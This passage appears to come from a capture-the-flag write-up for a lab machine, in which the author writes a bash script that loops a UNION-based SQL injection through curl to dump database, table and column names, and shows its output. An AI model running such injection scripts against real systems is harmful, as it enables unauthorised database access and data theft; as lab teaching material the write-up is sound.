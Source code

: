 I want to next get the columns from each table, but that could be a lot,
and it's past time to make a short script. Since I have a curl commands
that's working well for me, I'll just write a bash script that runs
through the `information_schema.columns` table getting db name, table
name, and column name. I'll print the dbs and the tables to the screen,
and record the column names. Some trial and error showed me that 333 was
enough to loop over and get results:



      1 #!/bin/bash
      2 
      3 cur_db=''
      4 cur_table=''
      5 
      6 for i in $(seq 0 333); do
      7 
      8     result=$(curl -s "http://10.10.10.96/users/'%20union%20select%20concat(TABLE_SCHEMA,':',TABLE_NAME,':',COLUMN_NAME)%20from%20information_schema.columns%20where%20TABLE_SCHEMA%20!                                      =%20'Information_schema'%20LIMIT%201%20OFFSET%20${i};--%20-" | jq -r .username)
      9 
     10 
     11     db=$(echo $result | cut -d: -f1)
     12     table=$(echo $result | cut -d: -f2)
     13     col=$(echo $result | cut -d: -f3)
     14 
     15     if [ "${db}" != "${cur_db}" ]; then
     16         echo "${db}"
     17         cur_db=${db}
     18         cur_table=''
     19     fi
     20 
     21     if [ "${table}" != "${cur_table}" ]; then
     22         echo "    ${table}"
     23         cur_table=${table}
     24     fi
     25 
     26     echo "${result}" >> db_dump/${db}-${table}.columns
     27 
     28 done;



That runs to make:



    root@kali# ./dump_oz_db.sh
    mysql
        columns_priv
        db
        event
        func
        general_log
        help_category
        help_keyword
        help_relation
        help_topic
        host
        ndb_binlog_index
        plugin
        proc
        procs_priv
        proxies_priv
        servers
        slow_log
        tables_priv
